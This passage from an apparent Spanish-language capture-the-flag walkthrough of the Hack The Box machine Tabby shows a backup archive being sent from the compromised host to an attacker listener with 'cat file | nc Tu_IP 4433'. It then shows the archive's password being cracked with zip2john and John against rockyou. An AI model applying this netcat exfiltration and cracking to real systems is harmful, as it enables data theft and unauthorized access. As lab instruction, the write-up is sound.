 * Lee el archivo **.zip** y con un **pipe** agrega la conexión hacia nuestra **netcat**:
```bash
tomcat@tabby:/var/www/html/files$ cat 16162020_backup.zip | nc Tu_IP 4433
cat 16162020_backup.zip | nc Tu_IP 4433
```

* Una vez que veas que se conecto nuestra **netcat**, corta la conexión y revisa que el archivo se encuentra ahí:
```bash
nc -nvlp 4433 > backup.zip
listening on [any] 4433 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.194] 42616
^C
```

* Para comprobar que fue correcta la obtención del archivo **.zip**, en ambas máquinas checa el **hash md5** del archivo, debe ser el mismo:
```bash
tomcat@tabby:/var/www/html/files$ md5sum 16162020_backup.zip
md5sum 16162020_backup.zip
f0a0af346ad4495cfdb01bd5173b0a52  16162020_backup.zip
---
---
md5sum backup.zip
f0a0af346ad4495cfdb01bd5173b0a52  backup.zip
```
Y listo, esta fue otra forma de obtener este archivo.

<h2 id="John">Obteniendo Contraseña de .ZIP con John y Convirtiendonos en Ash</h2>

Para obtener la contraseña, simplemente vamos a usar una de las herramientas de **John** llamada **zip2john**. Lo que hará, será obtener un hash del **.ZIP**, con esto usaremos **John** para descifrar el hash y nos dé una contraseña:
```bash
zip2john BackUp.zip > hash                
ver 1.0 BackUp.zip/var/www/html/assets/ is not encrypted, or stored with non-handled compression type
ver 2.0 efh 5455 efh 7875 BackUp.zip/var/www/html/favicon.ico PKZIP Encr: TS_chk, cmplen=338, decmplen=766, crc=282B6DE2 ts=7DB5 cs=7db5 type=8
...
...
```

Crackea el hash con **John**:
```bash
john -w=/usr/share/wordlists/rockyou.txt hash

Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:01 38.97% (ETA: 16:13:22) 0g/s 5607Kp/s 5607Kc/s 5607KC/s matyang..matwells
admin@it         (BackUp.zip)     
1g 0:00:00:01 DONE (2023-05-12 16:13) 0.5405g/s 5598Kp/s 5598Kc/s 5598KC/s adminf86..admin98
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Ya tenemos la contraseña, te diría que la usaras para que vieras el **.zip**, pero esa cosa no tiene nada importante.
